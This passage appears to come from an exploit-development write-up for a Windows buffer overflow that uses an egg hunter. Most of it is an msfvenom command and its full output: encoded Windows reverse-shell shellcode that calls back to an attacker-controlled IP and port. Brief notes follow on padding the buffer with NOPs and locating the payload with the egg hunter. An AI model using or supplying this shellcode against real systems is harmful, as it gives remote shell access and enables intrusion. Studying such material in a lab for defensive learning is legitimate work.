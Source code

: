 ## Crafting the shellcode

Lets generate the shellcode for our reverse shell using ```msfvenom```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.116.128 LPORT=9876 -f python -e x86/shikata_ga_nai -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xb8\xbb\xf1\x65\xd4\xdd\xc1\xd9\x74\x24\xf4\x5e\x31"
buf += b"\xc9\xb1\x52\x31\x46\x12\x03\x46\x12\x83\x55\x0d\x87"
buf += b"\x21\x55\x06\xca\xca\xa5\xd7\xab\x43\x40\xe6\xeb\x30"
buf += b"\x01\x59\xdc\x33\x47\x56\x97\x16\x73\xed\xd5\xbe\x74"
buf += b"\x46\x53\x99\xbb\x57\xc8\xd9\xda\xdb\x13\x0e\x3c\xe5"
buf += b"\xdb\x43\x3d\x22\x01\xa9\x6f\xfb\x4d\x1c\x9f\x88\x18"
buf += b"\x9d\x14\xc2\x8d\xa5\xc9\x93\xac\x84\x5c\xaf\xf6\x06"
buf += b"\x5f\x7c\x83\x0e\x47\x61\xae\xd9\xfc\x51\x44\xd8\xd4"
buf += b"\xab\xa5\x77\x19\x04\x54\x89\x5e\xa3\x87\xfc\x96\xd7"
buf += b"\x3a\x07\x6d\xa5\xe0\x82\x75\x0d\x62\x34\x51\xaf\xa7"
buf += b"\xa3\x12\xa3\x0c\xa7\x7c\xa0\x93\x64\xf7\xdc\x18\x8b"
buf += b"\xd7\x54\x5a\xa8\xf3\x3d\x38\xd1\xa2\x9b\xef\xee\xb4"
buf += b"\x43\x4f\x4b\xbf\x6e\x84\xe6\xe2\xe6\x69\xcb\x1c\xf7"
buf += b"\xe5\x5c\x6f\xc5\xaa\xf6\xe7\x65\x22\xd1\xf0\x8a\x19"
buf += b"\xa5\x6e\x75\xa2\xd6\xa7\xb2\xf6\x86\xdf\x13\x77\x4d"
buf += b"\x1f\x9b\xa2\xc2\x4f\x33\x1d\xa3\x3f\xf3\xcd\x4b\x55"
buf += b"\xfc\x32\x6b\x56\xd6\x5a\x06\xad\xb1\xa4\x7f\xd9\xc1"
buf += b"\x4d\x82\x21\xe4\x19\x0b\xc7\x82\x31\x5a\x50\x3b\xab"
buf += b"\xc7\x2a\xda\x34\xd2\x57\xdc\xbf\xd1\xa8\x93\x37\x9f"
buf += b"\xba\x44\xb8\xea\xe0\xc3\xc7\xc0\x8c\x88\x5a\x8f\x4c"
buf += b"\xc6\x46\x18\x1b\x8f\xb9\x51\xc9\x3d\xe3\xcb\xef\xbf"
buf += b"\x75\x33\xab\x1b\x46\xba\x32\xe9\xf2\x98\x24\x37\xfa"
buf += b"\xa4\x10\xe7\xad\x72\xce\x41\x04\x35\xb8\x1b\xfb\x9f"
buf += b"\x2c\xdd\x37\x20\x2a\xe2\x1d\xd6\xd2\x53\xc8\xaf\xed"
buf += b"\x5c\x9c\x27\x96\x80\x3c\xc7\x4d\x01\x4c\x82\xcf\x20"
buf += b"\xc5\x4b\x9a\x70\x88\x6b\x71\xb6\xb5\xef\x73\x47\x42"
buf += b"\xef\xf6\x42\x0e\xb7\xeb\x3e\x1f\x52\x0b\xec\x20\x77"
```

Changing junk characters (A's) into ```NOPS``` (\x90)

Since our shellcode is large, we could not place it in ESP and attack it like a classic buffer overflow

We have to place it in between the buffer data and use our egg hunter to find and execute the shellcode
